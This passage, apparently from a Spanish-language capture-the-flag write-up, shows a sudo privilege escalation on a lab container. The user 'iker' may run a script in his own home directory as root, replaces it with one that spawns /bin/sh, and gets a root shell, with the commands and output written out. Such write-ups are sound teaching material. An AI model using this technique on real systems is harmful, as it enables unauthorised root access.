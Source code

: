 YA ESTAMOS COMO IKER.

Vemos si el usuario tiene permisos SUDO:
   ```bash
$ sudo -l
Matching Defaults entries for iker on e5d8d275281e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User iker may run the following commands on e5d8d275281e:
    (ALL) NOPASSWD: /usr/bin/python3 /home/iker/geo_ip.py

```

Vemos **geo_ip.py** con permisos SUDO al ejecutarlo con python3. Como el directorio es nuestro, lo eliminamos y creamos uno que nos de una shell:

   ```bash

iker@e5d8d275281e:~$ cat geo_ip.py 
import  os
os.system("/bin/sh")
iker@e5d8d275281e:~$ sudo /usr/bin/python3 /home/iker/geo_ip.py 
# whoami
root

```

**YA ESTAMOS COMO ROOT.**